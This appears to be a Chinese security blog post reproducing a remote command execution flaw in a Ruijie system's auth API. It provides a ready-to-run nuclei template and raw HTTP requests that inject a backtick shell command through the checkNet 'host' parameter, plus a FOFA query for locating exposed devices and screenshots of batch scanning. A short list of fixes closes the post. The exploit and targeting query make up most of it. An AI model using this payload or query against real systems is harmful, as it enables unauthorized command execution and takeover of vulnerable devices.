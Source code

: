 #  锐捷系统auth接口处存在远程命令执行漏洞【漏洞复现|附nuclei-POC】   
原创 kingkong  脚本小子   2025-02-08 02:50  
  
****  
**免责声明：**  
**本文内容仅供技术学习参考，请勿用于违法破坏。利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，与作者无关。如有侵权请联系删除。**  
  
****  
****  
**漏洞描述：**  
  
锐捷系统auth接口处存在远程命令执行漏洞。  
攻击者  
可能利用此漏洞执行恶意命令，导致系统执行未授权的操作，获取服务器权限  
。  
  
  
01  
  
—  
  
**Nuclei POC**  
  
```
id: ruijie-auth-RCE

info:
  name: 锐捷系统auth接口处存在远程命令执行漏洞
  author: kingkong
  severity: high
  metadata:
    fofa-query: body="cgi-bin/luci" && body="#f47f3e"
    
http:
  - raw:
      - |
        POST /cgi-bin/luci/api/auth HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
        {"method":"checkNet","params":{"host":"`echo test123>test.txt`"}}
      
      - |
        GET /cgi-bin/test.txt HTTP/1.1
        Host: {{Hostname}}     
          
    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
              - 'status_code_1 == 200'
              - 'status_code_2 == 200'
              - 'contains(body_2,"test123")'
        condition: and
```  
  
  
02  
  
—  
  
搜索语法  
```
FOFA：body="cgi-bin/luci" && body="#f47f3e"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohnfxh3a92HwMeQ17UZRnDtffD8coXdOdhX9dnpZ64vIZ9cU2kkNica2TEIvLQozibGdFYNqLZoNuwtGg/640?wx_fmt=png&from=appmsg "")  
  
  
界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohnfxh3a92HwMeQ17UZRnDtffickr9iaUSLmv2Hr4ibCxNpbtBn7cDAic1DYwDp1gmWRUbk14icVPvVThiacg/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohnfxh3a92HwMeQ17UZRnDtffsavbNQmgwmM3gjMYZDrSHVEThvlZShHAwkFrOdrXlfpIb2lkFzISfg/640?wx_fmt=png&from=appmsg "")  
  
漏洞验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohnfxh3a92HwMeQ17UZRnDtff6ewbGISTLd20eWZ3ROAUHzBHpjVKiamJGtsUT2n3UMYPkn3vCNXficBw/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞检测POC  
```
POST /cgi-bin/luci/api/auth HTTP/1.1
Host: 
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 65

{"method":"checkNet","params":{"host":"`echo test123>test.txt`"}}


GET /cgi-bin/test.txt HTTP/1.1
Host:


```  
  
  
neclei批量检测截图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohnfxh3a92HwMeQ17UZRnDtffCusGsAof0ibfFyv4PKwA3srjezDRZbuVdQ6iaDb1icfzo2uaj1wrA6bicQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
04  
  
—  
  
修复建议  
  
  
1、输入验证：对所有用户输入进行严格的验证，确保只接受预期的格式。  
  
2、使用安全的API：使用安全的库或API来执行命令，避免直接调用系统命令。  
  
3、最小权限原则：确保应用程序仅在必要的权限下运行，限制可执行的命令。  
  
4、输出编码：对输出进行编码，以防止注入攻击。  
  
  
  
  
05  
  
—  
  
下载地址  
  
  
进入公众号点击POC可获取所有POC文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneS7aOPfDNKhvOicibVlyrkJ3A4EuUx5c5S8eAxFnF9KiaibAGJfP6ibB6ze4Rm4pZ7MI4jQibT05lTevqg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
  
  
  
